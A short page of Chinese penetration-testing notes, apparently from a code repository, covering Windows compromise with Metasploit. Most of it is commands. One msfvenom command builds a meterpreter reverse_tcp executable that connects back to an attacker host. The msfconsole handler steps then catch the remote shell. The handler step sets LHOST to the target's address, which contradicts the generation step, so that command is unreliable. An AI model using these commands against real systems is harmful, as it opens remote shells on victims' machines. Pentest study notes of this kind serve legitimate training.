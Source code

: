 # 渗透测试

## Windows 渗透

利用msf套件

反弹shell

生成

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<攻击机地址> LPORT=<攻击机端口> -f exe > shell.exe
```

上传到靶机后

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <靶机地址>
set LPORT <攻击机端口>
exploit
```

拿到meterpreter shell以后

可以``shell``进入cmd环境



### 参考资料
https://guide.offsecnewbie.com/privilege-escalation/windows-pe


## Linux 渗透